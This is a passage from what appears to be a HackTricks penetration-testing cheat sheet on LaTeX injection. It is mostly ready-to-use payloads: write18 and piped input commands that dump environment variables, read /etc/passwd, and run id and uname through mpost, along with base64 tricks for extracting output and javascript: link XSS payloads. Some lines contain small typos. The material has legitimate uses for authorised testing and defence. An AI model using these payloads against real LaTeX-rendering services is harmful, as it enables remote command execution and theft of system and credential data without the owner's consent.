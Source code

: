 ### Command execution <a href="#command-execution" id="command-execution"></a>

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

### Cross Site Scripting <a href="#cross-site-scripting" id="cross-site-scripting"></a>

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

## References

* [https://notsosecure.com/data-exfiltration-formula-injection-part1](https://notsosecure.com/data-exfiltration-formula-injection-part1)
* [https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)
* [https://salmonsec.com/cheatsheet/latex\_injection](https://salmonsec.com/cheatsheet/latex\_injection)
* [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
